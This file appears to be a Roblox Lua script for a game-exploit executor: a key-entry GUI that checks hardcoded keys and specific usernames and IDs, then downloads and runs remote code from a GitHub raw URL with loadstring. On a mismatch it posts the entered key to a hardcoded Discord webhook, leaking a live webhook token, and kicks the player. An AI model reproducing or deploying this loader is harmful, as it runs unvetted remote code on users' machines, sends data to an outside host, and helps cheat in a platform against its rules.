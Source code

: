 
-- Instances:
local ScreenGui = Instance.new("ScreenGui")
local MainFrame = Instance.new("Frame")
local Topbar = Instance.new("Frame")
local Line = Instance.new("Frame")
local Execute = Instance.new("TextButton")
local KEY = Instance.new("TextBox")

-- Properties:
ScreenGui.Parent = game.CoreGui

MainFrame.Name = "MainFrame"
MainFrame.Parent = ScreenGui
MainFrame.Active = true
MainFrame.BackgroundColor3 = Color3.new(0.176471, 0.176471, 0.176471)
MainFrame.BorderSizePixel = 0
MainFrame.Position = UDim2.new(0.29734084, 0, 0.391891897, 0)
MainFrame.Selectable = true
MainFrame.Size = UDim2.new(0, 502, 0, 175)
MainFrame.Draggable = true

Topbar.Name = "Topbar"
Topbar.Parent = MainFrame
Topbar.Active = true
Topbar.BackgroundColor3 = Color3.new(0.137255, 0.137255, 0.137255)
Topbar.BorderSizePixel = 0
Topbar.Selectable = true
Topbar.Size = UDim2.new(0, 502, 0, 15)

Line.Name = "Line"
Line.Parent = Topbar
Line.Active = true
Line.BackgroundColor3 = Color3.new(1, 0, 0.490196)
Line.BorderSizePixel = 0
Line.Position = UDim2.new(0, 0, 1, 0)
Line.Selectable = true
Line.Size = UDim2.new(0, 502, 0, 6)

Execute.Name = "Execute"
Execute.Parent = MainFrame
Execute.BackgroundColor3 = Color3.new(0.137255, 0.137255, 0.137255)
Execute.BorderSizePixel = 0
Execute.Position = UDim2.new(0.300796807, 0, 0.633714259, 0)
Execute.Size = UDim2.new(0, 200, 0, 50)
Execute.Font = Enum.Font.SciFi
Execute.Text = "EXECUTE"
Execute.TextColor3 = Color3.new(1, 1, 1)
Execute.TextSize = 35
Execute.TextWrapped = true

KEY.Name = "KEY"
KEY.Parent = MainFrame
KEY.BackgroundColor3 = Color3.new(0.137255, 0.137255, 0.137255)
KEY.BorderSizePixel = 0
KEY.Position = UDim2.new(0.165338635, 0, 0.257142842, 0)
KEY.Size = UDim2.new(0, 336, 0, 50)
KEY.Font = Enum.Font.SciFi
KEY.Text = "INPUT KEY HERE..."
KEY.TextColor3 = Color3.new(1, 1, 1)
KEY.TextSize = 24
KEY.TextWrapped = true
local LP = game.Players.LocalPlayer




-- whitelist keys
local whitelist1 = ("FHGfNfgBMXP6A83dbFuW")
local whitelist2 = ("j")
local whitelist3 = ("7zBqdTUAtM4z4x5PQQDT")





Execute.MouseButton1Down:connect(function()
if KEY.Text ~= whitelist1 then
return end
    if KEY.Text == whitelist1 and LP.Name == "130Ping" and LP.UserId == 2005974613 then
		MainFrame:Destroy()
		wait(1)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Hunter15917/Scripts/main/AllScripts.md"))()

elseif KEY.Text == whitelist1 and LP.Name ~= "130Ping" or LP.UserId ~= 2005974613 then

local Data = {
    ["content"] = tostring(whitelist1)
}

local response = syn.request(
    {
        Url = "https://discord.com/api/webhooks/840715845202214943/Tlzx1rx-hqI3iWFgLh3VTiZrxy-cPG5Uy9Syvs6PK83OSCDsq2DS2OdurNlOpUpm-m3c",
        Method = "POST",
        Headers = { ["Content-Type"] = "application/json" },
        Body = game:GetService("HttpService"):JSONEncode(Data)
    }
)
wait(0.5)
MainFrame:Destroy()
	wait()
	game.Players.LocalPlayer:Kick("why")
      end
end)




Execute.MouseButton1Down:connect(function()
  if KEY.Text ~= whitelist2 then
return end 
    if KEY.Text == whitelist2 and LP.Name == "Eadwulf" and LP.UserId == 879757642 then
		MainFrame:Destroy()
		wait(1)
loadstring(game:HttpGet("https://raw.githubusercontent.com/Hunter15917/Scripts/main/AllScripts.md"))()

elseif KEY.Text == whitelist2 and LP.Name ~= "Eadwulf" or LP.UserId ~= 879757642 then

local Data = {
    ["content"] = tostring(whitelist2)
}

local response = syn.request(
    {
        Url = "https://discord.com/api/webhooks/840715845202214943/Tlzx1rx-hqI3iWFgLh3VTiZrxy-cPG5Uy9Syvs6PK83OSCDsq2DS2OdurNlOpUpm-m3c",
        Method = "POST",
        Headers = { ["Content-Type"] = "application/json" },
        Body = game:GetService("HttpService"):JSONEncode(Data)
    }
)
wait(0.5)
MainFrame:Destroy()
	wait()
	game.Players.LocalPlayer:Kick("why")
     end
end)







-- blacklist keys
local blacklist1 = ("cMDWk7CRYmXFYyRkySmN")
local blacklist2 = ("MMDWk7CRYmXFYyRkySmN")
local blacklist3 = ("ZZBqdTUAtM4z4x5PQQDT")

Execute.MouseButton1Down:connect(function()
	if KEY.Text == blacklist1 then
		MainFrame:Destroy()
		wait(1)
		game.Players.LocalPlayer:Kick("Blacklisted")
	end
end)

Execute.MouseButton1Down:connect(function()
	if KEY.Text == blacklist2 then
		MainFrame:Destroy()
		wait(1)
		game.Players.LocalPlayer:Kick("Blacklisted")
	end
end)

Execute.MouseButton1Down:connect(function()
	if KEY.Text == blacklist3 then
		MainFrame:Destroy()
		wait(1)
		game.Players.LocalPlayer:Kick("Blacklisted")
	end
end)
